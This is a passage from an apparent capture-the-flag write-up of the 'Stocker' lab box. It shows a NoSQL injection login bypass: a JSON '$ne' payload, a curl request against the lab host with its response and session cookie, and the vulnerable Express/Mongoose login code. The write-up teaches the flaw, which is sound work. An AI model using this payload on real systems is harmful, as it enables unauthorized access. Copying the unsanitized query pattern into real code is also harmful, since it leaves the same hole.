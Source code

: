 
The `POST` request contains two parameters: `username` and `password`. I must confess that I was really stuck at this point. I've tried SQL Injection, as well as common usernames and passwords, and even enumerated some more.

But here's the interesting part. Besides the commonly used SQL databases, the web application can also use a different type of database known as NoSQL, which doesn't follow the strict relational structure.

The good thing is, we can inject into NoSQL databases too!

One of the payloads mentioned by [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass) is:

```json
{"username": {"$ne": null}, "password": {"$ne": null} }
```

By changing the `Content-Type` header to `application/json` and sending this payload, we were able to gain access to the stocker main page.

```shell
curl "http://dev.stocker.htb/login" -H "Content-Type: application/json" -d '{"username": {"$ne": null}, "password": {"$ne": null} }'

* Connected to dev.stocker.htb (10.10.11.196) port 80 (#0)
> POST /login HTTP/1.1
> Host: dev.stocker.htb
> Content-Type: application/json
> ...
>
< HTTP/1.1 302 Found
< Server: nginx/1.18.0 (Ubuntu)
< X-Powered-By: Express
< Location: /stock
< Set-Cookie: connect.sid=s%3AqGMRmpDVrXcgo8u6P8cvnkxXulrDf2xh.EJzRuuoN6u0mVuOXo449k1SVf%2FBDed2jDyB4Sq3p1Kk; Path=/; HttpOnly
< ...
* Connection #0 to host dev.stocker.htb left intact
Found. Redirecting to /stock
```

#### But why this occurs? 

- Well, the server **doesn't restrict the Content-Type** of the request in the first place. This allow us to send JSON data in it's body.
- Secondly, the server **understands the JSON** sent and uses it to authenticate the user. 
- Finally, the data is **not sanitized at all**, allowing us to manipulate the query expression.


Later on, we can access the source of the server in `/var/www/dev/index.js`. Analyzing the code, we discover the snippet of authentication: 

```js 
app.use(express.json());
app.use(express.urlencoded({ extended: false }));

// ...

app.post("/login", async (req, res) => {
  const { username, password } = req.body;
  
  if (!username || !password) return res.redirect("/login?error=login-error");

  const user = await mongoose.model("User").findOne({ username, password });

  if (!user) return res.redirect("/login?error=login-error");

  req.session.user = user.id;

```